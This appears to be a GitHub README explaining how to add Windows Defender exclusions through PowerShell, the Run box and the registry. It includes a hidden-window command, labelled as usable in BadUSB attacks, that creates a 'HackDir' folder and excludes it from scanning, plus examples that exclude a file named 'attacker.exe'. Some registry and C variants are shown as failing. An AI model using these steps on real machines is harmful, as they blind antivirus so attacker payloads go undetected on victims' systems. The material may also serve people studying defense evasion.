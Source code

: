 # WinDefInfo
## Information about Windows Defender, Exclusions/Regedit...


### Add path/executable file via PowerShell
#### Run as administrative user
```ps1
Add-MpPreference -ExclusionPath "$Env:AppData\Roaming" # path
Add-MpPreference -ExclusionPath "$env:USERPROFILE\Documents\attacker.exe" # executable
```
#### Can check in Defender
![screen](def_exc1.png)

#### Can check in Regedit
![screen](regedit1.png)

### Remove path/executable file via PowerShell
#### Run as administrative user
```ps1
Remove-MpPreference -ExclusionPath "$Env:AppData\Roaming" # path
Remove-MpPreference -ExclusionPath "$env:USERPROFILE\Documents\attacker.exe" # executable
```

### Use from Run/cmd
```cmd
:: can be used in BadUsb attacks
:: create $env:USERPROFILE\HackDir directory and add it to exclusions
powershell -WindowStyle Hidden -command "New-Item -Path $env:USERPROFILE\HackDir -ItemType Directory; Add-MpPreference -ExclusionPath "$env:USERPROFILE\HackDir""
```
![screen](add_run_cmd.png)


### Add path/executable file via Regedit
```ps1
# Path in regedit
# HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows Defender\Exclusions\Paths

# to add a file/path to exceptions, specify the path to the file/directory in the value name
# type REG_DWORD and value 0
```


### Fail via .reg file
```reg
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows Defender\Exclusions\Paths]
"C:\\"=dword:00000000
```
![screen](reg_fail.png)




### Fail in native application
```c
// all source in FailAdd.c file

#define Exclusions TEXT("SOFTWARE\\Microsoft\\Windows Defender\\Exclusions\\Paths")

HKEY key = NULL;
LSTATUS res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, Exclusions, 0, KEY_SET_VALUE, &key);

if (res == ERROR_SUCCESS) {
    RegSetValueEx(key, argv[1], 0, REG_DWORD, nullptr, 0);
}
```
![screen](native_app_fail.png)


### Links
https://learn.microsoft.com/en-us/powershell/module/defender/add-mppreference

https://learn.microsoft.com/en-us/powershell/module/defender/remove-mppreference

https://www.elevenforum.com/t/add-or-remove-exclusions-for-microsoft-defender-antivirus-in-windows-11.8797/
